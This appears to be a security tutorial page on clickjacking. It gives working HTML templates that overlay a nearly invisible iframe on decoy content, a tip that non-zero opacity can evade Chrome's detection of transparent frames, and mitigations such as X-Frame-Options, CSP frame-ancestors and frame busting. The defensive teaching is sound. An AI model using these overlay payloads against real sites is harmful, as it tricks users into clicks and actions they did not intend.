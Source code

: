 # Clickjacking

### Clickjacking

{% code overflow="wrap" %}
```html
<script>alert("1337")</script>
<iframe style="opacity: 0;" width="100%" src="<http://localhost/labs/cors/info.php>"></iframe>
<p id="string" style="margin-top: -30px;">Click on me and fo this,first Ctrl+a,second Ctrl+Cm finaly Ctrl+V on textarea</p>
<textarea oninput="alert('I Hacked You '+this.value)" id="data" style="width: 300px;height: 250px;"></textarea>
```
{% endcode %}

#### **Real-World Examples**

**Social Media Clickjacking**: An attacker might trick a user into "liking" or sharing a post on social media by hiding the actual "Like" button under a seemingly unrelated button.

**Ad Fraud**: Users may be tricked into clicking on ads without realizing it, generating revenue for the attacker.

**Critical Actions**: Clickjacking can be used to change security settings, subscribe to services, or initiate file downloads without the user's consent.

#### **Constructing a Basic Clickjacking Attack**

Clickjacking is an attack where the attacker tricks a user into clicking on something different from what they perceive by overlaying a transparent iframe of the target website over a decoy webpage. Here’s how you can construct a basic clickjacking attack using HTML and CSS:

**Example Code:**

```html
<html>
<head>
    <style>
        /* Styling for the target website iframe */
        #target_website {
            position: relative; /* Allows positioning relative to its normal position */
            width: 128px; /* Set the width to match the clickable area */
            height: 128px; /* Set the height to match the clickable area */
            opacity: 0.00001; /* Make the iframe nearly invisible */
            z-index: 2; /* Ensure the iframe is on top of the decoy content */
        }

        /* Styling for the decoy website */
        #decoy_website {
            position: absolute; /* Position it absolutely in the browser window */
            width: 300px; /* Set the decoy width */
            height: 400px; /* Set the decoy height */
            z-index: 1; /* Place the decoy content behind the iframe */
        }
    </style>
</head>
<body>
    <div id="decoy_website">
        <!-- Decoy web content here, e.g., "Click to win!" button -->
    </div>
    <iframe id="target_website" src="<https://vulnerable-website.com>">
    </iframe>
</body>
```

**Key Concepts:**

* **Positioning**: The <mark style="color:red;">**`position`**</mark> properties (<mark style="color:red;">**`relative`**</mark> for the iframe, `absolute` for the decoy) ensure that the iframe overlaps the decoy content correctly. Adjusting the `top`, **`left`**, `width`, and `height` values precisely position the iframe over the decoy content.
* **Layering (z-index)**: The **`z-index`** property controls the stack order of elements. The iframe (**`z-index`**`:`` `**`2`**) is layered above the decoy content (**`z-index: 1`**) so that any clicks will interact with the iframe.
* **Opacity**: The **`opacity`** value is set close to **`0.0`**, making the iframe nearly invisible to the user. Careful adjustment of the opacity can evade browser defences that detect fully transparent iframes, such as in Chrome.

### **Tools**

<mark style="color:purple;">**Burp Clickbandit**</mark>

### Mitigation

#### 1. **Use the `X-Frame-Options` Header**

1.**`X-Frame-Options`: DENY**

2.**`X-Frame-Options`: SAMEORIGIN**

Note **Allow specific origin framing** (if necessary):

<mark style="color:blue;">**`X-Frame-Options`**</mark>**: ALLOW\_FROM** [**https://trustdomain.com**](https://trustdomain.com)

#### 2. **Use Content Security Policy (CSP)**

allow frame only same origin

Content-Security-Policy: frame-ancestors 'self';

allow from only trust domain

Content-Security-Policy: frame-ancestors 'self'[https://trusteddomain.com](https://trusteddomain.com);

completely block framing

Content-Security-Policy: frame-ancestors 'none';

#### **3. Frame Busting Scripts** (Deprecated Approach)

```jsx
if (top !== self) {
    top.location = self.location;
}
```
